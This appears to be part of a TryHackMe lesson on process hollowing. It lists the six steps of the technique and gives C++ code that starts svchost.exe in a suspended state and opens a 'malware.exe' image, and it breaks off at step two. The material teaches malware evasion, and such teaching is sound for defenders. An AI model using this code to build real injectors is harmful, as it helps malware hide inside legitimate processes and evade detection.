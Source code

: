 

## Expanding Process Abuse
In the previous task, we discussed how we can use shellcode injection to inject malicious code into a legitimate process. In this task we will cover process hollowing. Similar to shellcode injection, this technique offers the ability to inject an entire malicious file into a process. This is accomplished by “hollowing” or un-mapping the process and injecting specific PE (**P**ortable **E**xecutable) data and sections into the process.
Process hollowing in 6 steps:

1. Create a target process in a suspended state.
2. Open a malicious image
3. Un-map legitimate code from process memory
4. Allocate memory locations for malicious code and write each section into the address space
5. set an entry point for the malicious code
6. Take the target process out of a suspended state

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e73cca6ec4fcf1309f2df86/room-content/3c36b4470fb04e3bfdbbef0674b79ec2.png)
At step one of process hollowing, we must create a target process in a suspended state using `CreateProcessA`. To obtain the required parameters for the API call we can use the structures `STARTUPINFOA` and `PROCESS_INFORMATION`.

```cpp
LPSTARTUPINFOA target_si = new STARTUPINFOA(); // Defines station, desktop, handles, and appearance of a process
LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION(); // Information about the process and primary thread
CONTEXT c; // Context structure pointer

if (CreateProcessA(
	(LPSTR)"C:\\\\Windows\\\\System32\\\\svchost.exe", // Name of module to execute
	NULL,
	NULL,
	NULL,
	TRUE, // Handles are inherited from the calling process
	CREATE_SUSPENDED, // New process is suspended
	NULL,
	NULL,
	target_si, // pointer to startup info
	target_pi) == 0) { // pointer to process information
	cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
	return 1;
```


In step two, we need to open a malicious image to inject. This process is split into three steps, start by using CreateFileA to obtain a handle for the malicious image
```cpp
HANDLE hMaliciousCode = CreateFileA(
	(LPCSTR)"C:\\\\Users\\\\tryhackme\\\\malware.exe", // Name of image to obtain
	GENERIC_READ, // Read-only access
	FILE_SHARE_READ, // Read-only share mode
	NULL,
	OPEN_EXISTING, // Instructed to open a file or device if it exists
	NULL,
	NULL
);
```
